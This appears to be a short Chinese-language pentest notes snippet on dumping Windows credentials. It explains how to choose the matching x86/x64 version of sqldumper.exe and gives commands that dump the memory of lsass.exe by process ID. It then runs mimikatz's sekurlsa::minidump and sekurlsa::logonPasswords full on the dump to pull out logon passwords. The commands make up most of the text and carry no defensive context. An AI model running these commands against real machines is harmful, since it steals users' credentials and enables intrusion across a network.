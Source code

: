 
注意：必须选择与目标系统对应的版本，x86/x64不可混用，否则无法成功dump。配套的dbghelp.dll可以不使用，会默认使用操作系统内的dbghelp.dll。

使用方法：
```
sqldumper.exe [lsass.exe pid] 0 0x0110

sqldumper.exe 548 0 0x0110

mimikatz.exe "log" "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" exit
```
